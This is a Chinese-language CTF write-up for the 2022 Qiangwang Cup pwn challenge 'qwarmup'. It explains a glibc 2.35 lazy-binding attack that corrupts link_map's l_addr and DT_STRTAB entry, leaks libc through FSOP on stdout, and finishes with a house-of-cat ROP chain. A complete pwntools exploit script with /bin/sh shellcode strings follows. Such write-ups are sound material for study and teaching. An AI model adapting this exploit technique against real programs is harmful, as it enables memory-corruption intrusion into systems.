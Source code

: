 ```yaml
---
title: 从qwarmup中学习到关于lazybind和linkmap的利用技巧
date: 2022-08-12 6:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=41/
pin: false
published:
---
```


## 适用场景

适用于Partial Relro时，没有有效的泄露函数，有任意libc地址写且其后会执行未执行过的函数

## 使用方法

主要技巧

1.让绑定错位失效，去修改link_map->l_addr来使得，解析的真实函数地址无法写在got表上(但是函数还是可以正常执行)

2.劫持link_map->l_info[DT_STRTAB]，劫持之前先伪造好strtab(比如在_r_debug上)，原本指向DT_STRTAB的d_val，改其指向DT_DEBUG的d_val

3.执行完记得恢复，让其正常执行原函数功能

## 例题分析:qwarmup

来自2022年强网杯线上赛

![image-20220812170420267](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170420267.png)

![image-20220812170535426](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170535426.png)

2.35的版本，题目开了沙箱

![image-20220812170503979](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170503979.png)

先看下题目情况，题目给了一个4字节的size用于malloc，这里是可以申请到libc段上方

然后是dowhile循环，会取size的高2字节保留，低位2字节赋0，所得的值作为校验，如果不为0就跳出循环。这里如果我们申请的是libc段上方，size就是0x10000往上，就会导致计算所得值不为0，从而跳出循环

而在循环内部，如果我们申请的是libc段上方，那么就可以对libc端任意地址写



题目采用**延迟绑定**的方式执行函数，没有可用于泄露地址的函数

所以考虑劫持stdout泄露地址，但缺少printf族输出函数，可以通过执行`_IO_flush_all`来触发

如果我们改掉该程序本身这个linkmap结构体的link_map->l_addr，就会导致解析完的真实write地址写入的位置发生改变，我们算下偏移，让其写入到0x4088的位置，这样一来，size的高位就为0了

![image-20220812210104272](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812210104272.png)

由于write的真实地址没有被写进got表，因此每次调用write都会进行一次查找，主要是执行`dl_runtime_resolve`，然后执行`_dl_fixup`函数，其中会去`call _dl_lookup_symnol_x`来获取函数的真实地址

![image-20220812211247119](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211247119.png)

第一个参数就是要查找函数的函数名，即`sym->st_name`，其来获取于strtab，strtab则是来源于libc上的全局结构体link_map，link_map->l_info[DT_STRTAB]



这里讲一下linkmap结构

`l_addr`：表示 libary 的基地址

`l_name`：表示 libary 的名字

`l_next`：链接着该程序所有用到的 libary，在GOT[1] 中保存的地址是第一层 link_map 中所表示的 libary，可以用 l_next 结构寻找下一层表示的 libary，以此来遍历程序中所用到的 libary，并利用结构体的字段找到该层 libary 的名字、基地址、以及所有的 section 等信息。

`l_info[x]`：指向该 libary 下的 .dynamic。`l_info[1]` 指向 d_tag = 1 时所表示的 section(这里的Elf64_Dyn结构体) ，所以可以改变 x 的值找到每个相关 section 的地址。在链接过程中 binary 中的 section 地址，以及 libary 中的地址都是通过此方法确定的。

下图是`_rtld_global`中第一个linkmap节点(程序本身)

![image-20220812211717640](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211717640.png)

.dynamic节如图所示，是由Elf64_Dyn结构体组成的

![image-20220812212950032](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812212950032.png)

比如像这样一段

d_tag == DT_STRTAB，d_val == 5 ，d_ptr == 0x560

DT_STRTAB大多都是宏定义，据我观察和dl_val是同样的值

```
Elf64_Dyn <5, 560h>                     ; DT_STRTAB
```

gdb中可以发现其正是指向Elf64_Dyn结构体

![image-20220812220457216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812220457216.png)



再说回这个`_dl_lookup_symbol_x`，第一个参数st_name主要就是通过strtab获取的

如果我们修改掉link_map->l_info[DT_STRTAB]的值为另一个可控的Elf64_Dyn结构体的地址，相当于劫持strtab，就可以执行任意函数

```c
_dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,version, ELF_RTYPE_CLASS_PLT, flags, NULL);
```

比如说我们控制link_map->l_info[DT_STRTAB]到DT_DEBUG，这样，我们在write相同偏移处写入IO_flush_all，就能利用lazybinding实现任意函数执行，前提是任意libc地址写，且其后会执行未执行过的函数

![image-20220812211153075](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211153075.png)

利用这一点我们可以执行_IO_flush_all函数实现FSOP触发stdout的泄露地址

关于IO_flush_all这个函数呢，主要是调用`_IO_flush_all_lockp`函数，会把IO结构体从stderr开始依次校验(if判断)

拿到libc地址以后，后续就可以通过劫持IO_stderr实现FSOP触发的IO利用，方法很多了，house of cat/house of emma/house of pig等

这里提供一下打本地的exp，远程有一定偏移上的区别

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level = 'debug'

p = process("./qwarmup")
elf = ELF("./qwarmup")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def write(offset,content):
	for i in range(len(content)):
		p.send(p64(offset+i))
		p.send(content[i])
		p.recvuntil("Success!")

p.send(p32(0xf0000))

write(0x3592d0,"\x70")# 控制覆盖size，同时不让真实地址写入got表

write(0x30e770,p32(0xfbad1800))# IO_stdout
write(0x30e770+0x20+0x8,"\xff")

write(0x359108+0x22,"_IO_flush_all")# 0x22 is offset of write of strtab
p.send(p64(0x359338))
p.send("\xd0")

libc_base=uu64()-0x21ba70
lg('libc_base')

setcontext=libc_base+libc.sym["setcontext"]+61
Read = libc_base+libc.sym["read"]
Write = libc_base+libc.sym['write']
pop_rdi = libc_base+0x2a3e5
pop_rsi = libc_base+0x2be51
pop_rdx = libc_base+0x90529
pop_rcx = libc_base+0x8c6bb
syscall = libc_base+0x91396
pop_rax = libc_base+0x45eb0
heap = libc_base-0xf3ff0
IO_wfile_jumps = libc_base + 0x2160c0
lg('heap')
write(0x359338,"\x90")# recover

#----------------------house of cat by FSOP-----------------------

stderr = libc_base+0x21a6a0# IO_stderr_addr
write(0x30e690+0x28,p64(0xffffffffffffffff))
write(0x30e690+0x40,p64(1))
write(0x30e690+0x50,p64(heap)+p64(setcontext))# rdx
write(0x30e690+0xa0,p64(stderr+0x30))
write(0x30e690+0xd8,p64(IO_wfile_jumps+0x30))
write(0x30e690+0xd8+0x38,p64(stderr+0x40))


rop = p64(heap)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
rop += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap+0x400)+p64(pop_rdx)+p64(0x30)*2+p64(Read)
rop += p64(pop_rdi)+p64(1)+p64(Write)

payload = "flag".ljust(0xa0,'\x00')+p64(heap+0x100)+p64(pop_rdi)
payload = payload.ljust(0x100,'\x00')
payload += rop

write(0,payload)
p.send(p64(0x359338))# IO_flush
p.send("\xd0")

p.interactive()
```



参考文章：

[深入窥探动态链接 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/134105591)

[高版本glibc堆的几种利用手法 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/535469996)

[2022强网杯 Pwn 部分Writeup-Pwn影二つ的博客 (kagehutatsu.com)](https://kagehutatsu.com/?p=723)

[从o开始的pwn学习之超详细ret2dl_resolve_金语的博客-CSDN博客](https://blog.csdn.net/jzc020121/article/details/116312592)

[高级ROP-ret2dlresolve(1) · 语雀 (yuque.com)](https://www.yuque.com/cyberangel/rg9gdm/oyne1i#gGyAO)